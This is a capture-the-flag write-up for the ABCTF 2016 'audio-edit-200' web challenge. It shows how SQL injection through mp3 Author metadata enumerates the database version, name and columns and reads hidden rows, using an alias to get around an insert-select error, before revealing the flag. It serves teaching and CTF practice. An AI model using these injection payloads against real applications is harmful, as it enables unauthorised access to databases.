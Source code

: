 # ABCTF 2016 : audio-edit-200

**Category:** Web
**Points:** 200
**Solves:** 21
**Description:**

I made a cool site to edit audio files. [Can you exploit it?](http://107.170.122.6/audioedit/)

## Write-up

The site offers user to upload an mp3 and therewith do some modifications.
In order to save the uploaded file it's inserted into a database and when
requested it shows 'Author', 'Title' and the filename.
The latter is created as the sha1sum of the mp3 content.

Some test quickly revealed the input of 'Author' and 'Title' in the mp3-metadate aren't verified
and offer a SQL-injection vulnerability.

We figured the insertion statement looked smth. like this:
    INSERT INTO audioedit (..., foo, bla, ...) VALUES (..., 'author','title'...);

In order to an SQL-injection we have to create a special author and title field.
I used easyTAG but you can use whatever you like;-)
In order to do an injection and maintain a valid INSERTION statement you can create an mp3
with the following metadata:
  * title  = "" (leer)
  * author = a', (SELECT @@version))-- -b


Which creates the following statement
    INSERT INTO audioedit (..., foo, bla, ...) VALUES (..., 'a', (SELECT @@version))-- -b',''...);

The 'a' in the beginng and the 'b' in the end where necessary because first an last character where
discarded... why so ever...

This gave us the database version: 5.5.49-0ubuntu0.14.04.1

Next we wanted to know the database name:
  * author = a', (SELECT database()))-- -b:
    audioedit

And of course the column names:
  * author = a',(SELECT column_name FROM information_schema.columns WHERE table_name = 'audioedit' LIMIT x,1))-- -a
  * with x in range(0,3):
    id
    file
    author
    title

So finally we wanted see whats in there:
    * author = a',(SELECT author FROM audioedit.audioedit LIMIT 0,1))-- -a

... but it gaves us an insertion error!:(

The problem is you can't select from a database you inserting at the same time... Thanks to Arxenix!:)

So we got around that using AS:
    * author = a',(SELECT author FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
    ABCTF
    * author = a',(SELECT title FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
    flag
    * author = a',(SELECT file FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
    supersecretflagf1le.mp3

And visited the corresponding site: http://107.170.122.6/audioedit/edit.php?file=supersecretflagf1le.mp3
    
Setting the visualisation to 'Sonogram' finally showed the flag:
    ABCTF{m3t4_inj3cti00n}



## Other write-ups and resources

* none yet
